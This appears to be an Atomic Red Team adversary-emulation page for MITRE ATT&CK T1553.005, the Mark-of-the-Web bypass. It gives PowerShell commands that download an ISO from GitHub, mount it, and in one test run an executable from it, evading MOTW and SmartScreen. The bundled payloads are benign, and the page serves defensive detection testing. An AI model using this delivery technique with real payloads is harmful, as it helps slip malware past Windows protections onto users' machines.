 # T1553.005 - Mark-of-the-Web Bypass
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1553/005)
<blockquote>Adversaries may abuse specific file formats to subvert Mark-of-the-Web (MOTW) controls. In Windows, when files are downloaded from the Internet, they are tagged with a hidden NTFS Alternate Data Stream (ADS) named <code>Zone.Identifier</code> with a specific value known as the MOTW.(Citation: Microsoft Zone.Identifier 2020) Files that are tagged with MOTW are protected and cannot perform certain actions. For example, starting in MS Office 10, if a MS Office file has the MOTW, it will open in Protected View. Executables tagged with the MOTW will be processed by Windows Defender SmartScreen that compares files with an allowlist of well-known executables. If the file in not known/trusted, SmartScreen will prevent the execution and warn the user not to run it.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)(Citation: Intezer Russian APT Dec 2020)

Adversaries may abuse container files such as compressed/archive (.arj, .gzip) and/or disk image (.iso, .vhd) file formats to deliver malicious payloads that may not be tagged with MOTW. Container files downloaded from the Internet will be marked with MOTW but the files within may not inherit the MOTW after the container files are extracted and/or mounted. MOTW is a NTFS feature and many container files do not support NTFS alternative data streams. After a container file is extracted and/or mounted, the files contained within them may be treated as local files on disk and run without protections.(Citation: Beek Use of VHD Dec 2020)(Citation: Outflank MotW 2020)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mount ISO image](#atomic-test-1---mount-iso-image)

- [Atomic Test #2 - Mount an ISO image and run executable from the ISO](#atomic-test-2---mount-an-iso-image-and-run-executable-from-the-iso)


<br/>

## Atomic Test #1 - Mount ISO image
Mounts ISO image downloaded from internet to evade Mark-of-the-Web. Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, and mount the image. The provided sample ISO simply has a Reports shortcut file in it. Reference: https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;T1553.005.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
Mount-DiskImage -ImagePath "#{path_of_iso}"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: T1553.005.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/T1553.005.iso -OutFile "#{path_of_iso}"
```




<br/>
<br/>

## Atomic Test #2 - Mount an ISO image and run executable from the ISO
Mounts an ISO image downloaded from internet to evade Mark-of-the-Web and run hello.exe executable from the ISO. 
Upon successful execution, powershell will download the .iso from the Atomic Red Team repo, mount the image, and run the executable from the ISO image that will open command prompt echoing "Hello, World!". 
ISO provided by:https://twitter.com/mattifestation/status/1398323532988399620 Reference:https://www.microsoft.com/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/,

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| path_of_iso | Path to ISO file | path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;FeelTheBurn.iso|


#### Attack Commands: Run with `powershell`! 


```powershell
$keep = Mount-DiskImage -ImagePath "#{path_of_iso}" -StorageType ISO -Access ReadOnly
$driveLetter = ($keep | Get-Volume).DriveLetter
invoke-item "$($driveLetter):\hello.exe"
```

#### Cleanup Commands:
```powershell
Dismount-DiskImage -ImagePath "#{path_of_iso}" | Out-Null
Stop-process -name "hello" -Force -ErrorAction ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: FeelTheBurn.iso must exist on disk at specified location (#{path_of_iso})
##### Check Prereq Commands:
```powershell
if (Test-Path #{path_of_iso}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{path_of_iso}) -ErrorAction ignore | Out-Null
Invoke-WebRequest https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1553.005/bin/FeelTheBurn.iso -OutFile "#{path_of_iso}"
```




<br/>
